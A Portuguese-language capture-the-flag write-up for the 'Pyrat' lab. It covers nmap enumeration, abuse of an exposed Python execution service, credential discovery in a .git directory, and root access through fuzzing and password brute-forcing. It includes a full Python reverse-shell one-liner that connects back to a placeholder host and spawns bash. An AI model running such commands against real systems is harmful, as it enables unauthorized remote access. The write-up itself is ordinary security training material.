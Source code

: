 # _**Pyrat CTF**_
![](pirate.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Visitando o site, somos recebidos com a mensagem: _Try a more basic connection!_  
Pensando, foi testado para ver as requisições e retornos via <mark>Burpsuite</mark>, mas nada  
Então, tentamos uma conexão via _netcat_ e uma requisição GET, mas GET não é interpretado  
Lembrando da dica, tentamos ```print("PennTest GPT was here")``` e temos retorno  
![](python_return.jpg)

Vamos testar mais alguns comandos como:
* import os; print(os.listdir("/"))
* import os; print(os.getlogin())

Aparentemente, estamos executando como _root_ e podemos listar diretórios  
Tentando verificar o usuário de _/home_, não temos permissão de acesso  
Vamos criar uma conexão shell reversa com o comando abaixo
> ```bash
> import socket,subprocess,os;s=socket.socket();s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")
> ```
![](reverse_shell.jpg)

Apesar desta reverse shell, ainda não temos permissão  
Vamos investigar os outros diretórios  
Procurando por pistas em _/tmp_, não temos nada  
Investigando em _/opt/dev_, temos um diretório com nome _.git_  
Procurando pelos arquivos, encontramos uma informação importante!  

![](passwd.jpg)

Vamos tentar uma conexão SSH  
Conseguimos!

## _**Escalando privilégios**_
Para esta parte, precisei buscar ajuda  
Primeiro, vamos retornar para _/opt/dev_ e vamos digitar ```git show```  

![](git_show.jpg)

Temos o que parece ser o código de conexão na porta 8000, uma _hash_ (sha-1) e algumas outras informações  
Além disso, vemos que ele está solicitando alguns dados específicos == 'algum endpoint'  
Em seguida, verifica se você fornece credenciais de administrador e, caso contrário, o shell é www-data  
Procurei um script para poder realizar _fuzzing_ na porta: [link do código](https://github.com/twhelan25/tryhackme-Pyratt-Writeup)  

![](python_fuzz.jpg)

É requisitado uma senha  
Novamente, executamos o segundo _script_ para obtermos a senha de _admin_  
Obtemos a senah rapidamente  
Agora podemos usar o _endpoint_ de administrador e a senha para obter um shell root  
Realizamos uma nova conexão ```netcat``` e digitamos ```admin```e a senha descoberta  
Após login, basta ir atrás das flags!  

![](root_login.jpg)
